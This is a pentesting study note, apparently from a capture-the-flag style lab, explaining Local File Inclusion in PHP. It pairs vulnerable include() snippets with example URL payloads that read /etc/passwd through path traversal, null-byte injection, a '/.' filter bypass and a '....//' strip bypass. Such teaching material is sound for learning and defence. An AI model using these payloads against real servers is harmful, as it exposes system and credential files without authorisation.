 ```yaml
---
title: Local File Inclusion
---
```


_Local File Inclusion_ attacks against web applications are often possible due to a developers' lack of security awareness.

With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web applications.

LFI vulnerabilities also occur when using other languages such as ASP, JSP, or even in Node.js apps. LFI exploits follow the same concepts as [path-traversal](private/cybersecurity/knowledge/pentesting/path-traversal.md).

## Example

Suppose the web application provides two languages, and the user can select between the EN and AR

```php
<?php
	include($_GET["lang"]);
?>
```

The PHP code above uses a **GET request** via the URL parameter `lang` to **include** the file of the page.

```
http://webapp.com/index.php?lang=EN.php
http://webapp.com/index.php?lang=AR.php
```

Theoretically, we can access and display any readable file on the server from the code above if there isn't any input validation:

```
http://webapp.com/index.php?lang=/etc/passwd
```

## Example #2

The developer might decided to specify the directory inside the function:

```php
<?PHP
	include("languages/". $_GET['lang']);
?>
```

In the above code, the developer decided to use the include function to call PHP pages in the languages directory only via lang parameters.

If there is no input validation, the attacker can manipulate the URL by replacing the lang input with other OS-sensitive files such as /etc/passwd.

The `include` function allows us to include any called files into the current page. The following will be the exploit:

```
http://webapp.com/index.php?lang=../../../../etc/passwd
```

## Example #3

In the first two cases, we _checked_ the code for the web app, and then we knew how to exploit it. In case of [black-box-testing](black-box-testing), we need to take a look of the error messages in order to understand how the data is passed and processed into the web app, eg:

```
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/**THM-4**/index.php on line 12
```

The error message discloses what the include function looks like:  `include(languages/THM.php);`

We can tell the function that includes files in the languages directory is adding `.php` at the end of the entry. Thus the valid input will be something like `index.php?lang=EN`, where the file EN is located inside the given `languages/` and named  `EN.php`.

From the error message we also know the full web application directory which is `/var/www/html/THM-4/`

To exploit this, we need to use the [dot-dot-slash trick](private/cybersecurity/knowledge/pentesting/path-traversal.md) to get out the current folder:

```
http://webapp.com/index.php?lang=../../../../etc/passwd
```

We already knew the `/var/www/html/THM-4` path has four levels, but we still receive the error:

```
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```

The error tells us that the developer specifies the file type to pass to the `include` function (namely it has to end with `.php`). To go around that, we need to use [null-byte](private/cybersecurity/knowledge/pentesting/null-byte.md) injection:

```
http://webapp.com/index.php?file=../../../../etc/passwd%00
```

## Example #4 - filtered keywords

Let's say the developer decided to filter keywords to avoid disclosing sensitive information and the `/etc/passwd` file has been filtered.

There are two possible methods to bypass the filter.

- by using the [null byte %00](private/cybersecurity/knowledge/pentesting/null-byte.md)
- the current directory [path-traversal](private/cybersecurity/knowledge/pentesting/path-traversal.md) trick at the end of the filtered keyword (`/.`)

The exploit will be similar to ```

```
http://webapp.thm/index.php?lang=/etc/passwd/.
```

If we try `/etc/passwd/..`, it results to be  `/etc/` and that's because we moved one to the root. If we try `/etc/passwd/.`, the result will be `/etc/passwd` since dot refers to the current directory.

## Example #5 - input validation

---

Let's say the developer starts to use input validation by filtering some keywords out of it.

```
http://webapp.thm/index.php?lang=../../../../etc/passwd
```

By using such URL, we got the following error:

```php
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```

From the error message we know that the web application replaces the `../` with the empty string (it defaults the fn call to `include(languages/etc/passwd`).

There are a couple of techniques we can use to bypass this.

We can send the following [payload](private/cybersecurity/knowledge/glossary/payload.md) to bypass it: `....//....//....//....//....//etc/passwd`, as the PHP filter only matches and replaces **the first subset** string it finds (`../`) and doesn't do another pass, turning

```
..//....//....//....//etc/passwd
```

into

```
../../../../etc/passwd
```

## Example 6 - forced directory

If the developer forces the `include` fn to read from a defined directory, namely, if the web application asks to supply input that has to include a directory such as

```
http://webapp.thm/index.php?lang=languages/EN.php
```

then, to exploit this, we need to include the directory in the [payload](private/cybersecurity/knowledge/glossary/payload.md) like so:

```
?lang=languages/../../../../../etc/passwd
```
